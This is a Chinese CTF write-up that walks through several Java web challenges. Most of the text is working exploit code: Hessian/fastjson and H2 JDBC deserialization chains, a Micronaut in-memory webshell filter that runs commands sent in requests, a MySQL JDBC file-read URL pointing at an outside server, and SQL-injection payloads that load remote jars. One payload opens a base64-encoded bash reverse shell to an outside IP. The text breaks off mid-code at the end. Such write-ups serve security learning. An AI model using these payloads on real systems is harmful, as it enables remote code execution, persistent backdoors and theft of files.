


# 近期的一些ctf中的java题目讲解-先知社区

> **来源**: https://xz.aliyun.com/news/17231  
> **文章ID**: 17231

---

# suctf

## ez-solon

```
@Controller
public class IndexController {
   @Mapping("/hello")
   public String hello(@Param(defaultValue = "hello") String data) throws Exception {
      byte[] decode = Base64.getDecoder().decode(data);
      Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(decode));
      Object object = hessian2Input.readObject();
      return object.toString();
   }
}
```

题目比较直接，就直接给了一个hessian的点。而且还调用了toString方法。给了h2的sink点，很明显是要打h2的jdbc。然后还有fastjson。fast打任意getter。然后就是codeql的分析了。

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <version>2.2.224</version>
</dependency>
<dependency>
    <groupId>org.noear</groupId>
    <artifactId>solon-web</artifactId>
</dependency>
```

codeql查一手。

```
import java


class GetMethod extends Method{
  GetMethod(){
      this.getName().indexOf("get") = 0 or 
      this.getName().indexOf("set") = 0 and
      this.getName().length() > 3 and
      this.isPublic() and
      this.fromSource() and
      this.hasNoParameters()
  }
}

from GetMethod getMethod, MethodAccess ma, Method method
where  ma.getEnclosingStmt() = getMethod.getBody().getAChild*() and method = ma.getMethod() 
    and method.hasName("getConnection") and getMethod.hasNoParameters()
select method,getMethod,getMethod.getDeclaringType()
```

根据黑名单hessian筛选



然后简单构造

```
import com.alibaba.fastjson.JSONArray;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import org.noear.solon.data.util.UnpooledDataSource;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;


public class POC {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.System.setSecurityManager(null)
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";

        UnpooledDataSource unpooledDataSource = new UnpooledDataSource(url, "", "", "java.sql.DriverManager");
        setFieldValue(unpooledDataSource, "logWriter", null);

//        JSONObject jsonObject = new JSONObject();
//        jsonObject.put("zz",unpooledDataSource);
//        jsonObject.toString();

        JSONArray jsonArray= new JSONArray();   // 这里 jsonObject 和 jsonArray 都是可以的。
        jsonArray.add(unpooledDataSource);
//        jsonArray.toString();

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(byteArrayOutputStream);
        output.setSerializerFactory(new SerializerFactory());
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(jsonArray);
        output.close();
        String data = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(data);

        byte[] decode = Base64.getDecoder().decode(data);
        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(decode));
        Object object = hessian2Input.readObject();
        object.toString();

    }

    public static void setFieldValue(Object obj, String filedName, Object value) throws NoSuchFieldException, IllegalAccessException {
        Field declaredField = obj.getClass().getDeclaredField(filedName);
        declaredField.setAccessible(true);
        declaredField.set(obj, value);
    }
}

```

## ez\_micronaut

KeyFilter

主要是这个过滤器里面有 jexl注入，BeanUtil 里面又有实例化的地方。还有h2和hutool的依赖。然后很明显就是打h2的jdbc。题目不出网，需要打内存马。

```
   public void setU(String u) throws Exception {
      Unsafe unsafe = getUnsafeInstance();
      Class<?> clazz = Class.forName(u);
      unsafe.allocateInstance(clazz);
      Constructor<?> constructor = clazz.getDeclaredConstructor(Class.forName(this.n));
      constructor.setAccessible(true);
      constructor.newInstance(this.d);
   }
```

poc

```
import com.google.gson.Gson;
import com.google.gson.GsonBuilder;
import hello.micronaut.bean.User;
import hello.micronaut.utils.BeanUtil;

import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.URL;
import java.util.Base64;

public class Exp {
    public static void main(String[] args) throws Exception {


        String loadClassName = "EvilFilter";
        String loadClassPath = "D:\\\\codes\\\\java_code\\\\micronautL\\\\micronautL-1.0-SNAPSHOT.jar";
//        String loadClassPath = "D:\\\\classes\\\\";
        String loadClassMethodName = "hacked";
        String loadClassPoc = "[n='cn.hutool.db.ds.pooled.PooledDataSource',d=new('cn.hutool.db.ds.pooled.PooledDataSource',new('cn.hutool.db.ds.pooled.DbConfig','jdbc:h2:mem:test;MODE=MSSQLServer;INIT=CREATE ALIAS IF NOT EXISTS LOAD_JAR AS \'" +
                "void loadJar(String jarPath, String className, String methodName) throws Exception {" +
                "java.net.URL jarUrl = new java.net.URL(\"file:\" + jarPath)\;" +
                "java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{jarUrl})\;" +
                "Class<?> loadedClass = classLoader.loadClass(className)\;" +
                "Object instance = loadedClass.getDeclaredConstructor().newInstance()\;" +
                "java.lang.reflect.Method method = loadedClass.getMethod(methodName)\;" +
                "method.invoke(instance)\;}\'\;" +
                "CALL LOAD_JAR(\'" + loadClassPath + "\', \'" + loadClassName + "\', \'" + loadClassMethodName + "\')\;" +
                "','1111','111')),u='cn.hutool.db.ds.pooled.PooledConnection']";

        String jar2base64Path = "D:\codes\java_code\micronautL\micronautL-1.0-SNAPSHOT.jar";
        String jar2base64 = jar2base64(jar2base64Path);
        String writeJarPoc = "[n='cn.hutool.db.ds.pooled.PooledDataSource',d=new('cn.hutool.db.ds.pooled.PooledDataSource',new('cn.hutool.db.ds.pooled.DbConfig','jdbc:h2:mem:test;MODE=MSSQLServer;INIT=CREATE ALIAS IF NOT EXISTS BASE64_TO_JAR AS \'void base64ToJar(String base64Data, String filePath) throws java.io.IOException {byte[] jarBytes = java.util.Base64.getDecoder().decode(base64Data)\;try (java.io.FileOutputStream fos = new java.io.FileOutputStream(filePath)) {fos.write(jarBytes)\;}}\'\;CALL BASE64_TO_JAR (\'" + jar2base64 + "\',\'" + loadClassPath + "\')\;','1111','111')),u='cn.hutool.db.ds.pooled.PooledConnection']";

        Gson gson = new GsonBuilder().create();

        BeanUtil beanUtil = new BeanUtil();
        beanUtil.setUrl("http");
        String json = gson.toJson(beanUtil, BeanUtil.class);
        System.out.println(json);

        String poc1 = Base64.getEncoder().encodeToString(json.getBytes()) + "<--->" + writeJarPoc + "<--->" + "admin";
        String poc2 = Base64.getEncoder().encodeToString(json.getBytes()) + "<--->" + loadClassPoc + "<--->" + "admin";

        User poc1User = new User("admin", "1", Base64.getEncoder().encodeToString(poc1.getBytes()));
        User poc2User = new User("admin", "1", Base64.getEncoder().encodeToString(poc2.getBytes()));

        System.out.println(gson.toJson(poc2User,User.class));
    }

    public static String jar2base64(String jarPath) {
        File jarFile = new File(jarPath);
        try (FileInputStream fis = new FileInputStream(jarFile)) {
            byte[] jarBytes = new byte[(int) jarFile.length()];
            fis.read(jarBytes);
            return Base64.getEncoder().encodeToString(jarBytes);
        } catch (IOException e) {
            e.printStackTrace();
            return "";
        }
    }

}

```

或者直接加载恶意class。但是需要打包把里面的EvilFilter$1.class 和 EvilFilter.class都拿出来。

```
String loadClassPath = "D:\\\\classes\\\\";
String loadClassPoc = "[n='cn.hutool.db.ds.pooled.PooledDataSource',d=new('cn.hutool.db.ds.pooled.PooledDataSource',new('cn.hutool.db.ds.pooled.DbConfig','jdbc:h2:mem:test;MODE=MSSQLServer;INIT=CREATE ALIAS IF NOT EXISTS LOAD_JAR AS \'" +
        "void loadJar(String jarPath, String className) throws Exception {" +
        "java.net.URL jarUrl = new java.net.URL(\"file:\" + jarPath)\;" +
        "java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{jarUrl})\;" +
        "Class<?> loadedClass = classLoader.loadClass(className)\;" +
        "Object instance = loadedClass.newInstance()\;}\'\;" +
        "CALL LOAD_JAR(\'" + loadClassPath + "\', \'" + loadClassName + "\')\;" +
        "','1111','111')),u='cn.hutool.db.ds.pooled.PooledConnection']";
```

内存马。

```
import io.micronaut.core.propagation.PropagatedContextElement;
import io.micronaut.core.util.SupplierUtil;
import io.micronaut.http.HttpRequest;
import io.micronaut.http.MutableHttpResponse;
import io.micronaut.http.filter.*;
import io.micronaut.http.server.RouteExecutor;
import io.micronaut.http.server.netty.NettyHttpRequest;
import io.micronaut.web.router.DefaultRouter;
import io.netty.util.internal.InternalThreadLocalMap;
import org.reactivestreams.Publisher;
import reactor.core.publisher.Flux;
import sun.misc.Unsafe;

import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Scanner;
import java.util.function.Supplier;


public class EvilFilter {

    public void hacked() {
        try {
            // 获取Unsafe实例
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            // 获取当前线程 (假设线程类型是NettyThreadFactory$NonBlockingFastThreadLocalThread)
            Thread currentThread = Thread.currentThread();

            // 检查是否是Netty的线程类型
            if (currentThread.getClass().getName().contains("NettyThreadFactory$NonBlockingFastThreadLocalThread")) {
                // 获取threadLocalMap字段的偏移量
                Field threadLocalMapField = currentThread.getClass().getSuperclass().getDeclaredField("threadLocalMap");
                long threadLocalMapOffset = unsafe.objectFieldOffset(threadLocalMapField);

                // 使用Unsafe获取threadLocalMap字段的值
                InternalThreadLocalMap threadLocalMap = (InternalThreadLocalMap) unsafe.getObject(currentThread, threadLocalMapOffset);

                // 获取threadLocalMap中的indexedVariables
                Field indexedVariablesField = InternalThreadLocalMap.class.getDeclaredField("indexedVariables");
                indexedVariablesField.setAccessible(true);
                Object[] indexedVariables = (Object[]) indexedVariablesField.get(threadLocalMap);

                Object indexedVariable = null;

                // 遍历indexedVariables数组，寻找PropagatedContextImpl类型的变量
                for (Object variable : indexedVariables) {
                    System.out.println(variable.getClass().getName());
                    if (variable.getClass().getName().contains("PropagatedContextImpl")) {
                        indexedVariable = variable;
                        break;
                    }
                }

                // 如果找到了PropagatedContextImpl类型的变量
                if (indexedVariable != null) {
                    // 获取PropagatedContextImpl的elements属性
                    Field elementsField = indexedVariable.getClass().getDeclaredField("elements");
                    elementsField.setAccessible(true);
                    PropagatedContextElement[] elements = (PropagatedContextElement[]) elementsField.get(indexedVariable);

                    PropagatedContextElement element = elements[0];

                    // 反射获取element的httpRequest属性
                    if (element != null && element.getClass().getName().contains("ServerHttpRequestContext")) {
                        // 获取ServerHttpRequestContext类中的httpRequest字段
                        Field httpRequestField = element.getClass().getDeclaredField("httpRequest");
                        httpRequestField.setAccessible(true);
                        NettyHttpRequest httpRequest = (NettyHttpRequest) httpRequestField.get(element);

                        // 获取channelHandlerContext属性
                        Field channelHandlerContextField = NettyHttpRequest.class.getDeclaredField("channelHandlerContext");
                        channelHandlerContextField.setAccessible(true);
                        Object channelHandlerContext = channelHandlerContextField.get(httpRequest);

                        // 获取handler属性
                        Field handlerField = channelHandlerContext.getClass().getDeclaredField("handler");
                        handlerField.setAccessible(true);
                        Object handler = handlerField.get(channelHandlerContext);

                        // 获取requestHandler属性
                        Field requestHandlerField = handler.getClass().getDeclaredField("requestHandler");
                        requestHandlerField.setAccessible(true);
                        Object requestHandler = requestHandlerField.get(handler);

                        // 获取routeExecutor属性
                        Field routeExecutorField = requestHandler.getClass().getDeclaredField("routeExecutor");
                        routeExecutorField.setAccessible(true);
                        RouteExecutor routeExecutor = (RouteExecutor) routeExecutorField.get(requestHandler);

                        // 获取router属性
                        Field routerField = routeExecutor.getClass().getDeclaredField("router");
                        routerField.setAccessible(true);
                        DefaultRouter router = (DefaultRouter) routerField.get(routeExecutor);

                        // 获取alwaysMatchesHttpFilters属性
                        Field alwaysMatchesHttpFiltersField = router.getClass().getDeclaredField("alwaysMatchesHttpFilters");
                        alwaysMatchesHttpFiltersField.setAccessible(true);
                        Supplier<ArrayList<GenericHttpFilter>> alwaysMatchesHttpFilters =
                                (Supplier<ArrayList<GenericHttpFilter>>) unsafe.getObject(router,
                                        unsafe.objectFieldOffset(alwaysMatchesHttpFiltersField));

                        // 获取现有的过滤器列表
                        ArrayList<GenericHttpFilter> filters = alwaysMatchesHttpFilters.get();

                        // 创建新的过滤器
                        HttpServerFilter hackedFilter = new HttpServerFilter() {
                            @Override
                            public Publisher<MutableHttpResponse<?>> doFilter(HttpRequest<?> request, ServerFilterChain chain) {
                                String cmd = request.getParameters().get("cmd");
                                String output = "";
                                try {
                                    boolean isLinux = true;
                                    String osTyp = System.getProperty("os.name");
                                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                                        isLinux = false;
                                    }
                                    String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                    Scanner s = new Scanner(in).useDelimiter("\A");
                                    output = s.hasNext() ? s.next() : "";
                                } catch (IOException ioe) {
                                    ioe.printStackTrace();
                                }

                                String finalOutput = output;
                                return Flux.from(chain.proceed(request))
                                        .doOnNext(response -> {
                                            response.body(finalOutput);
                                        });
                            }
                        };

                        // 获取AroundLegacyFilter类
                        Class<?> aroundLegacyFilterClass = Class.forName("io.micronaut.http.filter.AroundLegacyFilter");

                        // 使用Unsafe分配AroundLegacyFilter的实例
                        Object legacyFilter = unsafe.allocateInstance(aroundLegacyFilterClass);

                        // 获取AroundLegacyFilter的构造函数
                        Constructor<?> constructor = aroundLegacyFilterClass.getDeclaredConstructor(HttpFilter.class, FilterOrder.class);
                        constructor.setAccessible(true);  // 允许访问私有构造方法

                        // 创建一个Dynamic FilterOrder实例，回退排序值为0
                        FilterOrder dynamicOrder = new FilterOrder.Dynamic(0);

                        // 调用构造函数初始化实例
                        Object aroundLegacyFilter = constructor.newInstance(hackedFilter, dynamicOrder);

                        // 将新的filter添加到filters列表中
                        filters.add((GenericHttpFilter) aroundLegacyFilter);

                        // 更新alwaysMatchesHttpFilters
                        unsafe.putObject(router, unsafe.objectFieldOffset(alwaysMatchesHttpFiltersField),
                                SupplierUtil.memoized(() -> filters));

                    } else {
                        System.out.println("element不是ServerHttpRequestContext类型。");
                    }
                } else {
                    System.out.println("未找到类型为PropagatedContextImpl的变量。");
                }

            } else {
                System.out.println("当前线程不是Netty的线程类型。");
            }

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}

```

## SU\_PWN

具体看这个。

<https://paper.seebug.org/1963/>

<https://gist.github.com/thanatoskira/07dd6124f7d8197b48bc9e2ce900937f>

> 这个题预期其实是xalan cve的内存马利用，想考验大家自己重新构造xslt的。因为准备时间比较仓促，加上某yu姓男子给的不出网环境居然dns出网，导致大家都用dns打了。比较可惜吧只能说。

也可以写静态文件

```
find /tmp -type d -exec bash -c 'ls -lap / >"{}/out.txt"' \;
```

## sujava

只想着打低版本的jdbc反序列化了，但是这样打jdbc读文件第一次见，而且第一次见url还能这样写。

还有一个比较坑的点就是这个附件里面的class文件直接用idea打开时看不全的。需要反编译。

```
import java.sql.Connection;
import java.sql.DriverManager;

public class Test {
    public static void main(String[] args) throws Exception {

        Class.forName("com.mysql.jdbc.Driver");
        String jdbc_url = "jdbc:mysql://ADDRESS=(host=60.205.138.120)(port=3306)(database=test)(user=fileread_file%3A%2F%2F%2F.)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65%49%6e%50%61%74%68=%2F)(%61%6c%6c%6f%77%55%72%6c%49%6e%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%6d%61%78%41%6c%6c%6f%77%65%64%50%61%63%6b%65%74=655360)  #/test:3306/test?autoDeserialize=false&allowUrlInLocalInfile=false&allowLocalInfile=false&allowLoadLocalInfile=false";
        Connection con = DriverManager.getConnection(jdbc_url);

    }
}
```

```
/jdbc

post:
host=ADDRESS=(host=60.205.138.120)(port=3306)(database=test)(user=fileread_file%3A%2F%2F%2F.)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65%49%6e%50%61%74%68=%2F)(%61%6c%6c%6f%77%55%72%6c%49%6e%4c%6f%63%61%6c%49%6e%66%69%6c%65=true)(%6d%61%78%41%6c%6c%6f%77%65%64%50%61%63%6b%65%74=655360)  #/test&port=3306&database=test&extraParams={}&username=test&password=root
```

<https://github.com/rmb122/rogue_mysql_server>

# vnctf

## javaGuide

过滤了一些类，不能用jackson。TemplatesImpl。但是有fastjson。打二次反序列化即可。

```
   protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
      String className = desc.getName();
      String[] denyClasses = new String[]{"com.sun.org.apache.xalan.internal.xsltc.trax", "javax.management", "com.fasterxml.jackson"};
      int var5 = denyClasses.length;

      for(String denyClass : denyClasses) {
         if (className.startsWith(denyClass)) {
            throw new InvalidClassException("Unauthorized deserialization attempt", className);
         }
      }

      return super.resolveClass(desc);
   }
```

```
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.security.*;
import java.util.HashMap;
import java.util.Vector;

import static com.example.javaguide.Tool.*;


public class Exp{
    public static byte[] file2ByteArray(String filePath) throws IOException {
        InputStream in = new FileInputStream(filePath);
        byte[] data = inputStream2ByteArray(in);
        in.close();
        return data;
    }
    public static byte[] inputStream2ByteArray(InputStream in)
            throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] buffer = new byte[4096];
        int n;
        while((n = in.read(buffer)) != -1) {
            out.write(buffer, 0, n);
        }
        return out.toByteArray();
    }
    public static TemplatesImpl getTemplatesImpl(byte[] code)
            throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "name");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
    public static EventListenerList getEventListenerList(Object obj) throws Exception {
        EventListenerList list = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector)getFieldValue(manager,"edits");
        vector.add(obj);
        setFieldValue(list, "listenerList", new Object[]{InternalError.class, manager});
        return list;
    }
    public static Object getFastjsonEventListenerList(Object getter) throws Exception {
        JSONArray jsonArray0 = new JSONArray();
        jsonArray0.add(getter);
        EventListenerList eventListenerList0 = getEventListenerList(jsonArray0);
        HashMap hashMap0 = new HashMap();
        hashMap0.put(getter, eventListenerList0);
        return hashMap0;
    }
    public static SignedObject getSingnedObject(Serializable obj) throws Exception {
        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(obj, privateKey, signingEngine);
        return signedObject;
    }

    public static void main(String[] args) throws Exception{
//        TemplatesImpl templatesImpl = getTemplatesImpl(file2ByteArray("D:\codes\java_code\my-ysoserial\target\classes\FilterShell.class"));
        TemplatesImpl templatesImpl = getTemplatesImpl(file2ByteArray("D:\classes\Test.class"));
        Object calc = getFastjsonEventListenerList(templatesImpl);
        SignedObject singnedObject = getSingnedObject((Serializable) calc);
        Object fastjsonEventListenerList = getFastjsonEventListenerList(singnedObject);
        System.out.println(base64Encode(serialize(fastjsonEventListenerList)));

    }
}
```

# N1Junior

## EasyDB

有点类似于sql注入。

```
   @PostMapping({"/login"})
   public String handleLogin(@RequestParam String username, @RequestParam String password, HttpSession session, Model model) throws SQLException {
      if (this.userService.validateUser(username, password)) {
         session.setAttribute("username", username);
         return "redirect:/";
```

```
   public boolean validateUser(String username, String password) throws SQLException {
      String query = String.format("SELECT * FROM users WHERE username = '%s' AND password = '%s'", username, password);
      if (!SecurityUtils.check(query)) {
         return false;
      } else {
```

又是一个通过h2 一些复杂的打法。无非就是写马，加载马，或者直接命令执行。

```
admin' or 1=1;CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\A"); return s.hasNext() ? s.next() : "";  }$$;CALL SHELLEXEC('calc');--+

admin' or 1=1;CREATE ALIAS if not exists EXEC AS 'void exec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc');--+

可以加载本地文件。可以加载jar包。也可以加载恶意class文件。可以写，再加载。
admin' or 1=1;CREATE ALIAS IF NOT EXISTS LOAD_JAR AS 'void loadJar(String jarPath, String className, String methodName) throws Exception {java.net.URL jarUrl = new java.net.URL("file:" + jarPath);java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{jarUrl});Class<?> loadedClass = classLoader.loadClass(className);Object instance = loadedClass.getDeclaredConstructor().newInstance();java.lang.reflect.Method method = loadedClass.getMethod(methodName);method.invoke(instance);}';--+
admin' or 1=1;CALL LOAD_JAR('D:\codes\java_code\springShell\target\springShell-0.0.1-SNAPSHOT.jar', 'InjectToController2', 'hacked');--+

可以加载远程文件。但是注意jar包。名字不能有敏感字。打好jar包再改名也是可以的。
admin' or 1=1;CREATE ALIAS IF NOT EXISTS LOAD_JAR AS 'void loadJar(String jarPath, String className, String methodName) throws Exception {java.net.URL jarUrl = new java.net.URL(jarPath);java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{jarUrl});Class<?> loadedClass = classLoader.loadClass(className);Object instance = loadedClass.getDeclaredConstructor().newInstance();java.lang.reflect.Method method = loadedClass.getMethod(methodName);method.invoke(instance);}';--+
admin' or 1=1;CALL LOAD_JAR('http://loacalhost:7777/springShel-0.0.1-SNAPSHOT.jar', 'InjectToController2', 'hacked');--+

也可以通过反射加字符串的拼接来反弹shell。学到了。
admin'; CREATE ALIAS evil AS $$void jerry(String cmd) throws Exception{ String R="R"+"untime";Class<?> c = Class.forName("java.lang."+R);Object rt=c.getMethod("get"+R).invoke(null);c.getMethod("exe"+"c",String.class).invoke(rt,cmd);}$$;CALL evil('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMjkuMTU3LjI0OC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}');  --+
```

# aliyunctf

## Jtools

furry 自带了很多黑名单。但是有hutool。有一个反序列化的静态方法。SerializeUtil.deserialize

不停的网上 find Usages。然后发现 AbstractConverter.convert(Object value, T defaultValue) 最终可以走到这个反序列化点。

此时再 find Usages 结果太多。



用codeql简单查一下。

```
/**
@kind path-problem
*/

import java
import semmle.code.java.dataflow.FlowSources

class GetMethod extends Method{
    GetMethod(){
        // this.getName().indexOf("get") = 0 and
        // this.getName().indexOf("set") = 0 or
        // this.getName().indexOf("convert") = 0 or
        this.hasName("invoke") and
        this.getDeclaringType().getASupertype*() instanceof TypeSerializable and
        this.getName().length() > 3 and
        this.isPublic()
    }
}

class SinkMethod extends Method{
    SinkMethod(){
        this.hasName("convert") and
        this.getDeclaringType().hasName("AbstractConverter")
    }
}

query predicate edges(Method a, Method b) { 
    a.polyCalls(b)
}

from GetMethod source, SinkMethod sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@" ,
source.getDeclaringType(),source.getDeclaringType().getName(),
source,source.getName(),
sink.getDeclaringType(),sink.getDeclaringType().getName(),
sink,sink.getName()
```

简单看一下这个 MapProxy 的 invoke

```
public Object invoke(Object proxy, Method method, Object[] args) {
    final Class<?>[] parameterTypes = method.getParameterTypes();
    if (ArrayUtil.isEmpty(parameterTypes)) {
        final Class<?> returnType = method.getReturnType();
        if (void.class != returnType) {
            // 匹配Getter
            final String methodName = method.getName();
            String fieldName = null;
            if (methodName.startsWith("get")) {
                // 匹配getXXX
                fieldName = StrUtil.removePreAndLowerFirst(methodName, 3);
            } else if (BooleanUtil.isBoolean(returnType) && methodName.startsWith("is")) {
                // 匹配isXXX
                fieldName = StrUtil.removePreAndLowerFirst(methodName, 2);
            }else if ("hashCode".equals(methodName)) {
                return this.hashCode();
            } else if ("toString".equals(methodName)) {
                return this.toString();
            }

            if (StrUtil.isNotBlank(fieldName)) {
                if (false == this.containsKey(fieldName)) {
                    // 驼峰不存在转下划线尝试
                    fieldName = StrUtil.toUnderlineCase(fieldName);
                }
                return Convert.convert(method.getGenericReturnType(), this.get(fieldName));
            }
        }
```

首先创建动态代理这个类需要有接口。有实现类。有get方法而且返回值不能为空。

```
        Map hashmap = new HashMap();
        hashmap.put("digester", data);
        MapProxy mapProxy = new MapProxy(hashmap);
        ObjectCreationFactory test = mapProxy.toProxyBean(ObjectCreationFactory.class);
        test.getDigester();

        Map hashmap = new HashMap();
        MapProxy mapProxy = new MapProxy(hashmap);
        hashmap.put("name", data);
        IUser test = (IUser) Proxy.newProxyInstance(IUser.class.getClassLoader(), new Class[]{IUser.class}, mapProxy);
        test.getName();
```

试着找一找可以使用的类，简单筛选，然后使用即可。

```
import java


class GetMethod extends Method{
  GetMethod(){
      this.getName().matches("get%") and
      this.getName().length() > 3 and
      this.isPublic() and
      this.fromSource() and
      this.hasNoParameters() and
      not this.getDeclaringType().getASupertype*() instanceof TypeSerializable and
      not this.getReturnType() instanceof PrimitiveType and
      not this.getDeclaringType().getASupertype() instanceof AnnotationType
    
  }
}

from GetMethod method
select method.getDeclaringType()

```

然后就是找如何调用任意get了。

com.feilong.core.util.comparator.PropertyComparator的compare方法可以触发getter调用

这个和cb1链里面的BeanComparator很像。

poc

```
import cn.hutool.core.map.MapProxy;
import cn.hutool.core.map.MapUtil;
import cn.hutool.core.util.SerializeUtil;

import com.feilong.core.util.comparator.PropertyComparator;
import com.feilong.excel.ExcelReader;
import com.feilong.lib.beanutils.BeanComparator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import cn.hutool.core.util.ReflectUtil;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.Map;
import java.util.PriorityQueue;

public class PocBo
{

    public static void main( String[] args ) throws Exception {

        byte[] bytes= Files.readAllBytes(Paths.get("D:\Test.class"));

        TemplatesImpl template = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(template, new byte[][]{bytes});
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(template, "hello");
        // mock method name until armed

        BeanComparator comparator_1 = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

        // create queue with numbers and basic comparator
        PriorityQueue<Object> queue_1 = new PriorityQueue<Object>(2, comparator_1);
        queue_1.add("1");
        queue_1.add("1");
